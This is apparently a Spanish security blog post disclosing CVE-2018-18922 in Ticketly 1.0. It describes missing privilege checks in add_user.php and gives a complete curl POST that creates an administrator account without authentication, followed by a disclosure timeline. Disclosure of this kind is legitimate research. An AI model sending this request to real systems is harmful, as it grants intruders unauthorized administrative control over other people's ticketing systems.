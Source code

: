 +++
date = "2018-11-05"
title = "CVE-2018-18922 Ticketly 1.0 - Escalación de Privilegios (Crear cuenta administrador)"
author = "Javier Olmedo"
toc = false
+++

Hoy, publico otra entrada relacionada con vulnerabilidades en aplicaciones web, esta vez, sobre un software de ticketing llamado [Ticketly 1.0](https://abisoftgt.net/software/6/sistema-de-tickets-y-soporte-con-php-y-mysql) desarrollado por AbiSoft. La vulnerabilidad encontrada, permite a un atacante **crearse una cuenta de administrador** en el sistema mediante una vulnerabilidad de [Escalación de Privilegios](https://www.owasp.org/index.php/Testing_for_Privilege_escalation_\(OTG-AUTHZ-003\)), la vulnerabilidad ha sido asociada al [CVE-2018-18922](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2018-18922).

## Ticketly - CVE-2018-18922

### Ticketly 1.0 - Privilege Escalation (Add Admin Account)

[![/images/cve-2018-18922-ticketly-escalacion-de-privilegios-crear-cuenta-administrador/cve-2018-18922-ticketly-escalacion-de-privilegios-crear-cuenta-administrador_001.png](/images/cve-2018-18922-ticketly-escalacion-de-privilegios-crear-cuenta-administrador/cve-2018-18922-ticketly-escalacion-de-privilegios-crear-cuenta-administrador_001.png)](/images/cve-2018-18922-ticketly-escalacion-de-privilegios-crear-cuenta-administrador/cve-2018-18922-ticketly-escalacion-de-privilegios-crear-cuenta-administrador_001.png)

Ticketly 1.0, es un software de ticketing desarrollado por AbiSoft para ofrecer soporte a los usuarios sobre incidencias en los sistemas, está basado en PHP y MySQL.

- 📅 Vulnerabilidad descubierta por [Javier Olmedo](https://twitter.com/JJavierOlmedo) el **24/07/2018**
- 💣 Publicada el **05/11/2018**
- 🐛 [CVE-2018-18922](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18922)
- 🔗 Link del software [Ticketly](https://abisoftgt.net/software/6/sistema-de-tickets-y-soporte-con-php-y-mysql)
- 🐞 Versión vulnerable = **1.0**

## Vector de ataque / Criticidad de la explotación

### CRITICIDAD - 🟣 CRÍTICA 🟣

A través de las vulnerabilidades de [Escalación de Privilegios](https://www.owasp.org/index.php/Testing_for_Privilege_escalation_\(OTG-AUTHZ-003\)), un atacante podría **obtener acceso a recursos o funciones de la aplicación de los que, normalmente, no le estaría permitido**. Esto, generalmente es causado por una falla en la aplicación al comprobar los privilegios del usuario que realiza la acción o una mala configuración por parte del desarrollador/administrador sobre los privilegios previstos a los usuarios.

## Parámetro/Recurso vulnerable

El recurso `/ticketly/action/add_user.php` no realiza una **correcta validación de privilegios** y permite a un atacante **crear una cuenta de administrador sin necesidad de estar autenticado** en la aplicación.

Puede explotarse con la siguiente petición curl:

```txt
💉 curl -i -s -k -X $'POST' \  
-H $'Host: localhost' -H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H $'Content-Length: 82' \  
–data-binary $'name=Javier&lastname=Olmedo&email=contacto@hackpuntes.com&status=1&password=qwerty' \  
$'http://localhost/ticketly/action/add_user.php'
```

## Prueba de concepto (PoC)

[![/images/cve-2018-18922-ticketly-escalacion-de-privilegios-crear-cuenta-administrador/cve-2018-18922-ticketly-escalacion-de-privilegios-crear-cuenta-administrador_002.gif](/images/cve-2018-18922-ticketly-escalacion-de-privilegios-crear-cuenta-administrador/cve-2018-18922-ticketly-escalacion-de-privilegios-crear-cuenta-administrador_002.gif)](/images/cve-2018-18922-ticketly-escalacion-de-privilegios-crear-cuenta-administrador/cve-2018-18922-ticketly-escalacion-de-privilegios-crear-cuenta-administrador_002.gif)

## Timeline

- **24/07/2018** Descubrimiento de la vulnerabilidad
- **24/07/2018** Contacto con el desarrollador
- **24/07/2018** El desarrollador marca la vulnerabiliad como pendiente de parcheo
- **02/11/2018** Solicito CVE
- **04/11/2018** Asignación de CVE-2018-18922 por MITRE
- **05/11/2018** Hago pública la vulnerabilidad

## Referencias

- CVE-MITRE - [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18922](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18922)

Un saludo a todos!! 👋